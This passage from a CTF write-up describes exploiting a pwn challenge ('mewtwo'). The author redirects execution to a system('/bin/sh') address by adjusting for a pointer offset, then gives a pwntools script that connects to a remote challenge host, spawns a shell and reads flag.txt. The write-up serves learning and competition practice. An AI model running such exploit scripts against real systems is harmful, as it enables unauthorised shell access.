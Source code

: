 ![](https://i.ibb.co/3smHfX1/mew4.png)

We convert `0x5555555553f4` (at the very beginning of the `system()` call where `/bin/sh` is first loaded into a register) to decimal to get `93824992236532`, and we replace our input with this to see if it does anything.

![](https://i.ibb.co/nBv4SDQ/mew5.png)

Another segfault. This time the address changed. It's trying to access the address `0x5555aaaab22a`. Hmm, at this point I was thinking it could be an offset issue. So I found the offset between the 2 pointers which in this case was `0x55555e36`, and then I subtracted this offset from my input address. This gave me a new input value of `93823560578494`. I then substituted this value and tested again.

![](https://i.ibb.co/swzjG6j/mew6.png)

I spawned shell! Now all that I need to do is to clean up the process and try it on the host machine. I would access shell then simply `cat flag.txt` for the flag.
```py
#!usr/bin/env python
from pwn import *

r = remote("34.87.186.254",24985)

win_input = "93823560578494"

# input win() address
r.sendlineafter("> ","1")
r.sendlineafter(": ","0")
r.sendlineafter(": ",win_input)
# call sort
r.sendlineafter("> ","3")
# call statistics
r.sendlineafter("> ","5")
r.recvline()
# home free
r.sendline("cat flag.txt")

print("Flag: "+r.recvuntil("}"))
r.close()
```

And just as expected

![](https://i.ibb.co/f1C1mSH/mew7.png)


The flag is in front of us.

Flag: `greyhats{mewtwo_19211231}`

# Conclusion
There were still 2 challenges, Late For School!! and Secure Blob Runner that I wasn't able to complete largely due to a mix of my lack of experience and rusty abilities, though I strongly believe that they are very much solveable. The concept behind the challenges were all interesting and these 2 challenges provide a pretty clear path to how they're meant to be solved, but I couldn't get them in time. There were a few other simple non-pwn challenges that I solved as just a short break in between staring at code and terminal windows, I will probably do a very short all-in-one writeup for those as well.
